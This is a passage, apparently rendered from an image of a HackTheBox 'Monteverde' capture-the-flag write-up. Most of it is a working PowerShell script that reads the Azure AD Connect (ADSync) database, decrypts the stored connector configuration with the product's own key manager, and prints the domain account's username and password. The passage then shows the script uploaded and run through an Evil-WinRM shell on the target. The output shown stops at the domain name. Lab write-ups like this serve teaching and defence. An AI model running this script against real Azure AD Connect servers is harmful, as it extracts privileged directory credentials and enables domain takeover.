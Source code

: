 # [decrypt.ps1](https://blog.xpnsec.com/azuread-connect-for-redteam/)
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/monteverde]
└──╼ $ cat decrypt.ps1 
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Data Source=(local);Initial Catalog=ADSync;Integrated Security=SSPI"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)

$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}

Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
```


# Administrator password
```bash
*Evil-WinRM* PS C:\Users\mhope\Documents> upload decrypt.ps1
Info: Uploading decrypt.ps1 to C:\Users\mhope\Documents\decrypt.ps1

                                                             
Data: 2252 bytes of 2252 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\mhope\Documents> .\decrypt.ps1
Domain: MEGABANK.LOCAL
```